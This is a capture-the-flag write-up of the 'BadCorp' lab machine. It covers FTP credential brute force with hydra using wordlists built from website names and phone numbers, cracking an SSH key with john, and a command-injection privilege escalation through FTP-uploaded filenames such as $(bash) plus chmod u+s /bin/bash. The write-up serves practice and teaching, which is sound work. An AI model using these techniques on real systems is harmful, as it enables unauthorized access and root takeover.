 # BadCorp

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 192.168.160.133
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-13 13:28 +08
Nmap scan report for 192.168.160.133
Host is up (0.17s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
```

### Web Enumeration

The website was a corporate website:

<figure><img src="../../../.gitbook/assets/image (3956).png" alt=""><figcaption></figcaption></figure>

First thing I noticed was the **phone numbers**. Normally machines, I see numbers like +12 345 678. This was the first box I saw that included unique phone numbers. I took a look at their team:

<figure><img src="../../../.gitbook/assets/image (3878).png" alt=""><figcaption></figcaption></figure>

Again, phone numbers are unique here. This made me think about every little detail in the website, including the names of the users.&#x20;

There wasn't much more on the website, and we were just left with FTP and SSH.

### FTP Brute Force --> SSH Key

I took a look at this tweet regarding BadCorp:

{% embed url="https://twitter.com/offsectraining/status/1370149035059859459?lang=en" %}

To me, the 'insignificant information' was probably from the website. As such, I constructed wordlists based on the names of users and their phone numbers like this.

```
$ python2 username.py -n 'david williams' > user_word
$ cat pass_word                            
+23-34512435
2334512435
34512435
```

I then brute forced the FTP using `hydra` for each user and phone number, and eventually found one set of credentials that worked:

```
$ hydra -L user_word -P pass_word ftp://192.168.160.133
[21][ftp] host: 192.168.160.133   login: hoswald   password: 34566550
```

We can then login to FTP:

```
$ ftp 192.168.160.133                         
Connected to 192.168.160.133.
220---------- Welcome to Pure-FTPd [privsep] [TLS] ----------
220-You are user number 6 of 50 allowed.
220-Local time is now 00:40. Server port: 21.
220-This is a private system - No anonymous login
220 You will be disconnected after 15 minutes of inactivity.
Name (192.168.160.133:kali): hoswald 
331 User hoswald OK. Password required
Password: 
230 OK. Current directory is /
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> passive
Passive mode: off; fallback to active mode: off.
ftp> ls
200 PORT command successful
150 Connecting to port 50225
-rwxrwxr--    1 0          0                1766 Feb 24  2021 id_rsa
226-Options: -l 
226 1 matches total
```

This file was password encrypted:

```
$ cat id_rsa                   
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,689C848171117DE40F9DDDC1059582EC
```

We can crack this using `ssh2john.py` and `john`:

```
$ ssh2john id_rsa > ssh.john
$ john --wordlist=/usr/share/wordlists/rockyou.txt ssh.john
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
developer        (id_rsa)     
1g 0:00:00:00 DONE (2023-07-13 13:42) 25.00g/s 3754Kp/s 3754Kc/s 3754KC/s dewthedew..derbeder
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

<figure><img src="../../../.gitbook/assets/image (1178).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Backup SUID --> Reverse Engineering

I searched for SUID binaries within the machine and found one that stood out:

{% code overflow="wrap" %}
```
hoswald@badcorp:~$ find / -perm -u=s -type f  2>/dev/null
/usr/local/bin/backup
hoswald@badcorp:~$ file /usr/local/bin/backup
/usr/local/bin/backup: setuid ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=bef7543cc2b4b67931b5b549440ba5d76270edac, not stripped
hoswald@badcorp:~$ /usr/local/bin/backup
USAGE: backup <password> 
hoswald@badcorp:~$ /usr/local/bin/backup test
Wrong Password !!!
```
{% endcode %}

I didn't recognise this `backup` binary, so I downloaded it back to my machine and opened it up in `ghidra`.&#x20;

### Ghidra + Ltrace --> Command Injection

I first ran the binary with `ltrace`:

```
$ ltrace ./backup id
setuid(0)                                                = -1
strstr("id", "..")                                       = nil
strstr("id", "/")                                        = nil
strstr("id", "|")                                        = nil
strstr("id", "<")                                        = nil
strstr("id", ">")                                        = nil
strstr("id", "&")                                        = nil
strstr("id", " ")                                        = nil
strstr("id", "'")                                        = nil
strstr("id", "-")                                        = nil
strstr("id", "%")                                        = nil
strncpy(0x7fff99859cae, "id", 9)                         = 0x7fff99859cae
strcmp("eh\f\f\f\f\f\f", "|8\177\177{<~:")               = -23
puts("Wrong Password !!!"Wrong Password !!!
)                               = 19
+++ exited (status 0) +++
```

So it first makes us `root` and then checks for characters present. Afterwards, a basic `strcmp` is used to verify the password. The check for special characters seems to be a check for the bad characters:

```
$ ltrace ./backup '|8\177\177{<~:'
setuid(0)                                                = -1
strstr("|8\\177\\177{<~:", "..")                         = nil
strstr("|8\\177\\177{<~:", "/")                          = nil
strstr("|8\\177\\177{<~:", "|")                          = "|8\\177\\177{<~:"
puts("Bad character found !"Bad character found !
)                            = 22
strncpy(0x7ffe3e91560e, "|8\\177\\17", 9)                = 0x7ffe3e91560e
strcmp("p4P=;;P=7", "|8\177\177{<~:")                    = -12
puts("Wrong Password !!!"Wrong Password !!!
)                               = 19
+++ exited (status 0) +++
```

The bad characters don't include '$' and '()', opening up the possibility of command injection. Moving to `ghidra`, this binary prompts for a password before running the `check()` function to see if the password is correct, and then `copy()` if it is right:

<figure><img src="../../../.gitbook/assets/image (3484).png" alt=""><figcaption></figcaption></figure>

The `copy()` function takes an encrypted password and XOR's it with `0xc`:

<figure><img src="../../../.gitbook/assets/image (3482).png" alt=""><figcaption></figcaption></figure>

We can first grab the `pw` global variable from the binary:

<figure><img src="../../../.gitbook/assets/image (3116).png" alt=""><figcaption></figcaption></figure>

And then we can create a script in Python to decrypt this.&#x20;

```python
#!/usr/bin/python3
passwd = ''
cipher = bytes([0x3a, 0x7e, 0x3c, 0x7b, 0x7f, 0x7f, 0x38, 0x7c, 0x72])
b = bytes([0xc])
for x in reversed(cipher):
	ans = (x^0xc)
	passwd += chr(ans)

print (passwd)

$ python3 decrypt.py       
~p4ssw0r6
```

The first `~` character is not needed. We can then run the binary with the password:

```
hoswald@badcorp:~$ /usr/local/bin/backup p4ssw0r6
Create destination directory
FILE  id_rsa
ALL FILE COPYED IN /var/logs/hoswald/
```

We can move on to the `copy()` function now:

<figure><img src="../../../.gitbook/assets/image (1315).png" alt=""><figcaption></figcaption></figure>

All the binaries use their full path values, so no path hijacks here. However, this seems to use directories within `/var/logs` and `/home/FTP`. I was already thinking of command injection using subshells, and it seems that this is the exploit needed.&#x20;

We can use FTP to a few malicious files since we don't have write access over those directories:

```
ftp> put $(id)
local: $(id) remote: $(id)
229 Extended Passive mode OK (|||65519|)
150 Accepted data connection
     0        0.00 KiB/s 
226 File successfully transferred
```

This works!

<figure><img src="../../../.gitbook/assets/image (3716).png" alt=""><figcaption></figcaption></figure>

I then placed a file named `$(bash)` within the FTP directory, and it gave me a shell:

<figure><img src="../../../.gitbook/assets/image (3939).png" alt=""><figcaption></figcaption></figure>

This shell was pretty limited and couldn't give me any output. However, we can simply run `chmod u+s /bin/bash`. In another shell, we can then get a proper `root` shell easily:

<figure><img src="../../../.gitbook/assets/image (3491).png" alt=""><figcaption></figcaption></figure>
